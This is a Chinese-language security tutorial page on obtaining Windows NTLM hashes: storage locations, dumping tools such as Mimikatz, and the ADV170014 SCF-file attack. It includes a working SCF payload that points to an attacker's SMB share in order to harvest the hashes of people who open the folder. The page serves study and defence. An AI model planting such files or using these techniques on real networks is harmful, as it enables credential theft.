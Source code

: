 
# [](#%E8%8E%B7%E5%8F%96-ntlm)获取 NTLM

## [](#1-%E7%9B%B8%E5%85%B3%E8%83%8C%E6%99%AF)1 相关背景

### [](#11-ntlm-%E7%9A%84%E5%AD%98%E5%82%A8%E4%BD%8D%E7%BD%AE)1.1 NTLM 的存储位置：

1、系统数据库 SAM (Security Account Manager)

2、DIT 数据库

3、内存 Cache

### [](#12-ntlm-%E7%9A%84%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F)1.2 NTLM 的获取方式

1、从 SAM 获取

2、内存获取

3、DIT 数据库获取

4、WCE、PWDUMP、MIMIKATZ…

### [](#13-ntlm-%E7%9A%84%E5%BD%A2%E5%BC%8F)1.3 NTLM 的形式

aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42

LMHash (windows 2008 R2 系统以后系统默认不保存 LMHash)

NTHash

NetHash - 主要获取该种 hash

### [](#14-%E8%BF%9C%E7%A8%8B%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F%E7%AA%83%E5%8F%96)1.4 远程获取方式 (窃取):

1、Responder

2、HTTP + SMB

3、**SCF + SMB**

4、SQL + SMB

### [](#adv-170014-ntlm-sso)ADV 170014 NTLM SSO

2017 年 10 月，微软在周二补丁日公布了一份安全公告 (ADV170014)，这份安全公告中提到了 NTLM 身份验证方案中的一个漏洞，恶意攻击者可以利用这个漏洞来窃取哈希。

攻击者只需要将一个恶意的 SCF 文件放置在可公开访问的 Windows 文件夹中即可。

一旦文件被放在文件夹中，就会被一个神秘的 bug 执行。它会收集目标的 NTLM 密码散列，并将其发送到一个配置服务器中。

目标主机存在没有设置密码保护的一个共享文件夹，这种场景非常常见，比如办公室、学校、医院以及大多数 Windows 环境中，人们都会通过共享文件夹来共享音乐、照片以及文档。

### [](#%E6%94%BB%E5%87%BB%E5%9C%BA%E6%99%AF)攻击场景

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105732.png-water_print](assets/1699409393-a8fbf91fa6649902dca2e00210456b34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105732.png-water_print")

非正版系统可能没有该设置：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105840.png-water_print](assets/1699409393-1e7c8b65785333279308c3247d7cb7fe.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105840.png-water_print")

微软在 Windows 3.11 时引入了 SCF 文件。SCF 文件其实是纯文本文件，可以用来指导 Windows 文件资源管理器执行一些基本任务。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>[Shell]<br>Command=2 <br>IconFile=\\192.168.1.2\sharetest.ico <br>[Taskbar] <br>Command=ToggleDesktop<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509110136.png-water_print](assets/1699409393-a6c251b451ec54b95dffe87f54680ee2.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509110136.png-water_print")
